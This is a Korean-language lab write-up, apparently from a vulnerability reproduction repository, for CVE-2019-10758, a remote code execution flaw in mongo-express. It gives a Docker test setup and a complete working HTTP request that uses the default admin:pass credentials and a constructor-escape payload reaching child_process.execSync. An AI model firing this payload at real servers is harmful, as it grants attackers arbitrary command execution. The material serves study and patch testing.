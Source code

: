 # CVE-2019-10758
**Contributors**
-   [박진석(@ilohas0021)](https://github.com/ilohas0021)

<br/>

### 요약
-   mongo-express는 MongoDB 데이터베이스 관리를 위한 웹 인터페이스로 Node.js와 Express로 개발되었음.
-   CVE-2019-10758은 mongo-express에서 발견된 원격 코드 실행 취약점으로 공격자는 원격 서버에 Node.js 코드를 실행할 수 있음.
-   이 취약점은 공격자가 로그인에 성공하거나 목표 서버가 기본 계정 비밀번호(기본 값: admin:pass)를 변경하지 않은 경우에만 사용 가능함.

<br/>

### 환경 구성 및 실행
-   `docker compose up -d`를 실행하여 테스트 환경(mongo-express 0.53.0)을 실행함.
![](./img/start.png)
![](./img/before.png)

-   `http://your-ip:8081`에 접속하여 페이지를 확인함.
![](./img/express.png)

-   `python poc.py your-ip:8081`를 호출하여 `Packet` 을 전송하면 아래 코드를 실행할 수 있음.
-   `this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")` 
![](./img/valid.png)

#### Packet
```
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

<br/>

### 결과
![](./img/after.png)

<br/>

### 정리
-   이 취약점은 공격자가 mongo-express 서버에 악의적인 코드를 삽입하여 시스템을 해킹하거나 조작할 수 있는 위험을 갖고 있음.
-   따라서, 안전한 웹 서비스 운영을 위해 정기적인 취약점 점검과 패치가 중요함.
